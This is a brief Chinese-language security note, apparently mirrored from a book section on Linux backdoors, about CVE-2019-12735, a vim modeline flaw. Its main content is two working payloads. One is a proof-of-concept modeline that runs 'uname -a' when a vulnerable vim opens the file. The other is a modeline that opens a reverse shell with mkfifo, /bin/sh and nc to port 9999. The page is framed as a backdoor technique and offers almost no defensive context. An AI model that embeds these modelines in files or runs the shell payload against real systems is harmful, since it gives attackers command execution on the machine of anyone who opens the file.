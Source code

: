 # （CVE-2019-12735）vim modeline

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/9.html](http://book.iwonder.run/安全技术/Linux 后门/9.html)

该漏洞存在于编辑器的 modeline 功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当 vim 打开一个包含了 vim modeline 注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim 默认关闭 modeline。 开启：

```
vim ~/.vimrc
//文件内容为
set modeline 
```

```
poc:
:!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```

![image](img/308455d8bbde3950f2f9ecc6f8fd99fa.png)

反弹 shell：

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1  9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt=" 
```

![image](img/6128834a2b400b39845a7bb04d3962ac.png)

